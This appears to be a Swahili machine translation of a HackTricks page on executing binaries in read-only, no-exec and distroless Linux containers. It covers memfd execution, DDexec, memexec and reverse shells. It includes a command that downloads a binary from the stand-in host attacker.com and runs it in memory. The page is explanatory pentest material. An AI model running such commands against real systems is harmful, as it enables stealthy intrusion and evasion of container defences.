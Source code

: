 # Bypass FS protections: read-only / no-exec / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

- [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## read-only / no-exec scenario

Ni kawaida zaidi na zaidi kupata mashine za linux zilizowekwa na **read-only (ro) file system protection**, hasa katika kontena. Hii ni kwa sababu ya kuendesha kontena na mfumo wa faili wa ro ni rahisi kama kuweka **`readOnlyRootFilesystem: true`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umewekwa kama ro, **`/dev/shm`** bado itaandikwa, hivyo ni uongo hatuwezi kuandika chochote kwenye diski. Hata hivyo, folda hii itakuwa **imewekwa na no-exec protection**, hivyo ikiwa utashusha binary hapa hu **wezi kuitekeleza**.

> [!WARNING]
> Kutoka kwa mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au enumerators kama `kubectl`).

## Easiest bypass: Scripts

Kumbuka kwamba nilitaja binaries, unaweza **kutekeleza script yoyote** mradi tu mfasiri yuko ndani ya mashine, kama **shell script** ikiwa `sh` inapatikana au **python** **script** ikiwa `python` imewekwa.

Hata hivyo, hii haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazoweza kuhitaji kuendesha.

## Memory Bypasses

Ikiwa unataka kutekeleza binary lakini mfumo wa faili haukuruhusu hilo, njia bora ya kufanya hivyo ni kwa **kuitekeleza kutoka kwenye kumbukumbu**, kwani **ulinzi hauwezi kutumika huko**.

### FD + exec syscall bypass

Ikiwa una injini za script zenye nguvu ndani ya mashine, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary ili kuitekeleza kutoka kwenye kumbukumbu, kuihifadhi katika file descriptor ya kumbukumbu (`create_memfd` syscall), ambayo haitalindwa na ulinzi huo na kisha kuita **`exec` syscall** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kwa urahisi kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kupitisha binary na itaunda script katika lugha iliyoonyeshwa na **binary iliyoshinikizwa na b64 encoded** na maagizo ya **kufungua na kubana** katika **fd** iliyoundwa kwa kuita `create_memfd` syscall na wito kwa **exec** syscall kuikimbia.

> [!WARNING]
> Hii haifanyi kazi katika lugha nyingine za skripti kama PHP au Node kwa sababu hazina njia yoyote ya **kawaida ya kuita raw syscalls** kutoka kwa script, hivyo haiwezekani kuita `create_memfd` kuunda **memory fd** kuhifadhi binary.
>
> Zaidi ya hayo, kuunda **regular fd** na faili katika `/dev/shm` hakutafanya kazi, kwani hutaruhusiwa kuikimbia kwa sababu **no-exec protection** itatumika.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuruhusu **kubadilisha kumbukumbu ya mchakato wako mwenyewe** kwa kuandika tena **`/proc/self/mem`**.

Hivyo, **kudhibiti msimbo wa mkusanyiko** unaotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato ili **kutekeleza msimbo wowote wa kawaida**.

> [!TIP]
> **DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** **shellcode** yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Kwa maelezo zaidi kuhusu mbinu hii angalia Github au:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili inayofuata ya DDexec. Ni **DDexec shellcode demonised**, hivyo kila wakati unapotaka **kuendesha binary tofauti** huwezi kuanzisha tena DDexec, unaweza tu kuendesha memexec shellcode kupitia mbinu ya DDexec na kisha **kuwasiliana na demon hii ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano wa jinsi ya kutumia **memexec kutekeleza binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa kusudi linalofanana na DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu **njia rahisi ya kupakia binaries** kwenye kumbukumbu ili baadaye kuziendesha. Inaweza hata kuruhusu kupakia binaries zenye utegemezi.

## Distroless Bypass

### Nini maana ya distroless

Mizigo ya distroless ina sehemu tu za **muhimu kabisa zinazohitajika kuendesha programu au huduma maalum**, kama vile maktaba na utegemezi wa wakati wa kuendesha, lakini inatenga sehemu kubwa kama vile meneja wa pakiti, shell, au zana za mfumo.

Lengo la mizigo ya distroless ni **kupunguza uso wa shambulio wa mizigo kwa kuondoa sehemu zisizohitajika** na kupunguza idadi ya udhaifu ambao unaweza kutumiwa.

### Reverse Shell

Katika mizigo ya distroless huenda **usione hata `sh` au `bash`** kupata shell ya kawaida. Hutaweza pia kupata binaries kama `ls`, `whoami`, `id`... kila kitu ambacho kawaida unakimbia kwenye mfumo.

> [!WARNING]
> Kwa hivyo, huwezi kupata **reverse shell** au **kuhesabu** mfumo kama unavyofanya kawaida.

Hata hivyo, ikiwa mizigo iliyovunjwa inakimbia kwa mfano flask web, basi python imewekwa, na kwa hivyo unaweza kupata **Python reverse shell**. Ikiwa inakimbia node, unaweza kupata Node rev shell, na vivyo hivyo na lugha nyingi za **scripting**.

> [!TIP]
> Kutumia lugha ya scripting unaweza **kuhesabu mfumo** kwa kutumia uwezo wa lugha hiyo.

Ikiwa hakuna **`read-only/no-exec`** ulinzi unaweza kutumia reverse shell yako **kuandika kwenye mfumo wa faili binaries zako** na **kuziendesha**.

> [!TIP]
> Hata hivyo, katika aina hii ya mizigo ulinzi huu kwa kawaida utawepo, lakini unaweza kutumia **mbinu za awali za utekelezaji wa kumbukumbu kuzipita**.

Unaweza kupata **mfano** wa jinsi ya **kutumia baadhi ya udhaifu wa RCE** kupata lugha za scripting **reverse shells** na kuendesha binaries kutoka kwenye kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

{{#include ../../../banners/hacktricks-training.md}}
